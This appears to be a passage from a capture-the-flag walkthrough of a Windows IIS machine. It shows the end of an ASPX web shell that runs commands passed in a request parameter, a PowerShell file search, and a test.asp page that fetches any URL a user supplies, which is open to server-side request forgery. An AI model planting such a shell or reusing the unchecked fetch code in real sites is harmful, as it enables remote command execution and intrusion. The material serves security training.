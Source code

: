       RunCmd= res
    End Function
    </script>
    
    <html>
    <body>
    <%
    dim t as integer
    if request("xcmd") <> "" then
       t=RunCmd(request("xcmd"))
        response.write("Exit Status=" &t)
    end if
    %>
    <form action="cmd.aspx" method=POST>
    <p>Enter your shell command: <input type=text name=xcmd size=40> </form> </body> </html>
    

Not much else I can do with that now. I’ll notice that `test.asp` isn’t in the
`C:\inetpub\wwwroot` directory. It’s actually in `C:\inetpub\public`:

    
    
    Minion> ls -path \inetpub -Filter test.asp -recurse -erroraction silent
    
    
        Directory: C:\inetpub\public
    
    
    Mode                LastWriteTime     Length Name                              
    ----                -------------     ------ ----                              
    -a---         8/10/2017  11:22 AM        463 test.asp 
    

So `C:\inetpub\public` seems to be the server on port 62696, and
`C:\inetpub\wwwroot` is the one on 80 listening only on localhost.

This file does just what I thought, creating an `Msxml2.ServerXMLHTTP` object
and using it to make a request, and returning the page:

    
    
    <%
    dim objHttp,strURL
    if request("u") = "" then
       response.write "Missing Parameter Url [u] in GET request!"
    else  
    set objHttp = server.CreateObject("Msxml2.ServerXMLHTTP")
    strURL = Request("u")
    objHttp.open "GET", strURL, False
    objHttp.Send
    
    If objHttp.status = 200 Then
        Response.Expires = 90
        Response.ContentType = Request("mimeType")
        Response.BinaryWrite objHttp.responseBody
        set objHttp = Nothing
    End If
     
    end if
    %>
    